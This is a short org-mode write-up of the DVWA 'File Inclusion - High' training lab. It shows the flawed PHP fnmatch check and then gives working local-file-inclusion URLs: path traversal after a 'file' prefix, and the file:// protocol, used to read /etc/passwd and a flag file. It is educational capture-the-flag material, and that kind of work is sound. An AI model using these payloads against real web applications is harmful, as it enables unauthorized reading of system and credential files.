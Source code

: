 #+TITLE: DVWA - File Inclusion High
#+AUTHOR: Leonardo Tamiano

* Description
  Here the code looks as follows

  #+begin_src php
<?php

// The page we wish to display
$file = $_GET[ 'page' ];

// Input validation
if( !fnmatch( "file*", $file ) && $file != "include.php" ) {
    // This isn't the page we want!
    echo "ERROR: File not found!";
    exit;
}

?>
  #+end_src

  We have two validation checks:

  - the ~fnmatch()~ function in PHP matches strings against patterns
    using shell-style wildcards. In our case it matches any file that
    starts with ~file~.

  - The ~$file != include.php~ includes a special case such that the if
    fails only when the file that doesn't start with ~file~ is exactly
    ~include.php~
  
* Solution
  In terms of LFI exploitation, the code only checks if the parameter
  starts with ~file~, and it does not check on how it ends. Therefore we
  can use the following GET to leak the passwd file

  #+begin_example
http://evil/vulnerabilities/fi/?page=file/../../../../../../../etc/passwd
  #+end_example

  however we cannot seem to able to use the php filters to leak php
  code by using the base64 converter.

  ------------

  Another solution has to do with the fact that we can use the ~file~
  protocol to read any file in the system given its path.

  #+begin_example
http://evil/vulnerabilities/fi/?page=file:///etc/passwd
http://evil/vulnerabilities/fi/?page=file:///var/www/html/hackable/flags/fi.php
  #+end_example
